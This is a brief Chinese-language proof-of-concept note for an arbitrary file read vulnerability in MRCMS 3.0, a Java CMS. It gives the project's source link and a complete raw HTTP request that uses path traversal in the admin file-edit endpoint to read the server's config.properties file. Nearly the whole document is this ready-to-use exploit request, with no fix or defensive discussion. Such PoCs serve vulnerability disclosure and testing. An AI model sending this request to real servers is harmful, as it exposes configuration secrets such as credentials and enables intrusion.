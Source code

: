 ## MRCMS3.0任意文件读取漏洞

MRCMS 是一款Java开发的内容管理系统，采用数据模型+模板+插件实现，内置提供了文章模型发布功能。

## 源码
```
https://gitee.com/marker/MRCMS
```

## poc
```
GET /admin/file/edit.do?path=../resources/config.properties&name= HTTP/1.1
Host: 127.0.0.1:8080
Referer: http://127.0.0.1:8080/admin/index.do
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Mode: cors
X-Requested-With: XMLHttpRequest
```

![image](../../images/39dbdc2a-d6d5-481f-b9bb-8bbb0cbac76c.png)

